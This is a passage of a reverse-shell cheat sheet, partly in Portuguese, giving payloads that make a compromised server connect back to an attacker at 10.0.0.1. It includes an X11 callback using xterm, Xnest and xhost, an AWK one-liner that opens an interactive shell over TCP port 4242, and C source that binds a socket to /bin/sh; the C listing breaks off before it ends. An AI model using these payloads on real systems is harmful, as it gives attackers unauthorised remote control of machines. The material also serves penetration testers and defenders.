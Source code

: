 ```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

## XTerm

The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```sh
xterm -display 10.0.0.1:1
```

Para pegar a conexão reversa, starte um X-Server (:1 - que vai escutar na porta 6001). Isso obviamente na máquina atacante.

```sh
Xnest :1
```

Agora, autorize a conexão chegar até você! Novamente, na sua máquina host

```sh
xhost +targetip
```

## AWK

```sh
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

## C

Compilar com: `gcc /tmp/shell.c --output csh && csh`

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
```